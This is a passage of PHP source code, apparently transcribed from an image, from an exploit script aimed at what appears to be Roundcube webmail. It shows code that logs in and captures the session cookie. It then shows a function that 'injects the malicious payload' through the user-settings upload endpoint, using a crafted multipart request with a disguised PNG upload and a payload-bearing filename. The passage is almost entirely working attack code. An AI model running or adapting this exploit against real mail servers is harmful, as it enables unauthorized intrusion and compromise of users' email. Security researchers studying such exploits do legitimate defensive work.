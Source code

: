 ```
            'header'          => implode("\r\n", $headers),
            'content'         => $postData,
            'follow_location' => 0,
        ],
    ]);

    $body = @file_get_contents($targetUrl . '/?_task=login', false, $context);
    $respHeaders = implode("\r\n", $http_response_header ?? []);

    if (false === $body || !preg_match('#HTTP/\d+\.\d+\s+302#', $respHeaders)) {
        throw new \RuntimeException('Authentication failed: ' . PHP_EOL . ($body ?: 'no response'));
    }

    message('Authentication successful');

    return getCookie($respHeaders);
}

/**
 * Injects the malicious payload via the user settings upload endpoint.
 *
 * @param string $targetUrl
 * @param string $cookie
 * @param string $payloadName
 * @param string $payloadFile
 * @return void
 * @throws \Exception
 */
function injectPayload(string $targetUrl, string $cookie, string $payloadName, string $payloadFile): void
{
    message('Injecting payload...');

    $boundary = '------a_rule_for_WAF_to_block_fool_exploitation';

    $multipart = implode("\r\n", [
        '--' . $boundary,
        'Content-Disposition: form-data; name="_file[]"; filename="' . $payloadFile . '"',
        'Content-Type: image/png',
        '',
        base64_decode('iVBORw0KGgoAAAANSUhEUgAAAAgAAAAIAQMAAAD+wSzIAAAABlBMVEX///+/v7+jQ3Y5AAAADklEQVQI12P4AIX8EAgALgAD/aNpbtEAAAAASUVORK5CYII'),
        '--' . $boundary . '--',
    ]);

    $headers = implode("\r\n", [
        'X-Requested-With: XMLHttpRequest',
        'Content-Type: multipart/form-data; boundary=' . $boundary,
        'Cookie: ' . $cookie,
    ]);

    $context = stream_context_create([
        'http' => [
            'method'  => 'POST',
            'header'  => $headers,
            'content' => $multipart,
        ],
    ]);

    $url = sprintf(
        '%s/?_from=edit-%s&_task=settings&_framed=1&_remote=1&_id=1&_uploadid=1&_unlock=1&_action=upload',
```